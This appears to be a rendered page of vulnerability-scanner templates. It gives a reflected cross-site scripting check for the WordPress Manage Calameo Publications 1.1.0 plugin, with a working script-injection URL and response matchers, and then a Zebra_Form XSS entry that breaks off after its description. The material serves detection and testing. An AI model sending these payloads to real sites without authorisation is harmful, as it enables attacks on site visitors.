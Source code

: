 
# WordPress Manage Calameo Publications 1.1.0 - Cross-Site Scripting

## Description

- WordPress Manage Calameo Publications 1.1.0 is vulnerable to reflected cross-site scripting via thickbox_content.php and the attachment_id parameter.

- severity - medium
- tags - wordpress,wp-plugin,xss,wp,wpscan

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/athlon-manage-calameo-publications/thickbox_content.php?attachment_id=id%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E%26

### Matchers

**Type - word**

- part - body
- words
  1. ath_upload_calameo_publication(id\">\<script>alert(document.domain)\</script>&)

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Zebra_Form PHP Library \<= 2.9.8 - Cross-Site Scripting

## Description

- Zebra_Form PHP library 2.9.8 and prior (which is used by some WordPress plugins) is affected by reflected cross-site scripting vulnerabilities via process.php.

- severity - medium
- tags - wordpress,xss,wp,wpscan
